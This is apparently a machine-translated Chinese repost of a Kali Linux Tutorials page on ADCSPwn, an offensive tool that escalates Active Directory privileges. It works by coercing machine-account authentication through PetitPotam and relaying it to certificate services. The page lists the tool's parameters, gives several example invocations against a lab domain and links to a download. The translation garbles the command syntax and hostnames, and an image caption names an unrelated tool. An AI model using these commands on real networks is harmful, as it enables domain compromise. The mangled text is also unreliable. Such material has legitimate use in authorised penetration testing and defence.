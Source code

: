 # ADCSPwn:通过强制从机器帐户进行身份验证并转发到证书服务来提升 Active Directory 网络中权限的工具

> 原文：<https://kalilinuxtutorials.com/adcspwn/>

[![NebulousAD : Automated Credential Auditing Tool](img/f6e67886298a9b5cbfc6f9b6ede89d2d.png "NebulousAD : Automated Credential Auditing Tool")](https://1.bp.blogspot.com/-GvP1kX66PYM/XWdJfCq5H_I/AAAAAAAACRA/BZuVZ_a-5BY8s5iRdjYszTMZ_STje-AYgCLcBGAs/s1600/NebulousAD%2B%25281%2529.png)

**ADCSPwn** 是一个工具，它通过强制从机器帐户(Petitpotam)进行身份验证并转发到证书服务来提升 active directory 网络中的权限。

**用途**

在目标网络上运行`**ADCSPwn**`。

**作者:@*batsec*–MDSec active breach
投稿人:@ flang vik–trusted sec
adcspwn.exe–ADC–port[本地端口]–remote[计算机]
必需参数:
ADC–这是认证将被中继到的 adcs 服务器的地址。
可选参数:
port–ADCs pwn 将侦听的端口。
Remote–触发认证的远程机器。
用户名–非域上下文的用户名。
密码–非域上下文的密码。
DC–查询证书模板(LDAP)的域控制器。
unc–为 EfsRpcOpenFileRaw (Petitpotam)设置自定义 UNC 回调路径。
输出–存储 base64 生成的 crt 的输出路径。
示例用法:
adcspwn.exe–ADC cs . pwnlab . local
adcspwn.exe–ADC cs . pwnlab . local–port 9001
adcspwn.exe–ADC cs . pwnlab . local–remote DC . pwnlab . local
adcspwn.exe–ADC cs . pwnlab . local–remote DC . pwnlab . local–port 9001
adcspwn.exe–ADC cs . pwnlab . local–remote DC . pwnlab . local–output C:\ t–DC DC . pwn lab . local
adcspwn.exe–ADC cs . pwn lab . local–remote DC . pwn lab . local–DC DC . pwn lab . local–unc \ WIN-work 01 . pwn lab . local \ made \ up \ share**

[**Download**](https://github.com/bats3c/ADCSPwn)